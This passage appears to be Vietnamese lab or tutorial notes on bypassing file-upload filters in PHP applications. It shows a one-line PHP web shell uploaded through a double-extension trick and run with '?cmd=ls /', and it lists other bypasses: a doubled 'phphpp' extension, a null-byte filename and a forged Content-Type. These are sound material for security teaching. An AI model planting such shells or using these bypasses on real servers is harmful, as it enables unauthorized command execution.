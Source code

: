 ![alt text](./src/image-1.png) <br>
Xem source thì thấy rằng nếu check thấy extension là php => báo lỗi <br>
![alt text](./src/image-2.png) <br>
Bypass bằng cách thêm 1 extension vào tên file: `cmd.abc.php?` vì đoạn code đang chỉ kiểm tra phần tử đầu tiên sau dấu `.` nên extension sẽ là `.abc` <br>
Upload file shell `cmd.abc.php` <br>
```
<?php system($_GET['cmd']); ?>
```
Upload thành công và dùng lệnh `?cmd=ls /` để đọc các thư mục ở `/` <br>
![alt text](./src/image-3.png) <br>
![alt text](./src/image-4.png)
### 3.2 Bypass đuôi file: <br>
Nếu file extension bao gồm `php, php3, php4, php5, phtml` => bị từ chối. <br>
Có thể bypass bằng cách đặt tên tệp là `shell.phphpp` <br>
### 3.3 Bypass dùng NULL byte khi phía Back-end luôn thêm đuôi file hợp lệ: <br>
```
function add_valid_extension($filename, $valid_extension) {
    return $filename . '.' . $valid_extension;
}

$filename = $_FILES['uploaded_file']['name'];
$valid_extension = 'jpg';
$filename_with_extension = add_valid_extension($filename, $valid_extension);
```
=>Ta có thể bypass bằng cách đặt tên tệp `shell.php%00`
### 3.4 Bypass Content-type
Vì Content-Type là một header trong HTTP request nên ta có thể dễ dàng thay đổi giá tr của nó bằng Burp Suite. <br>
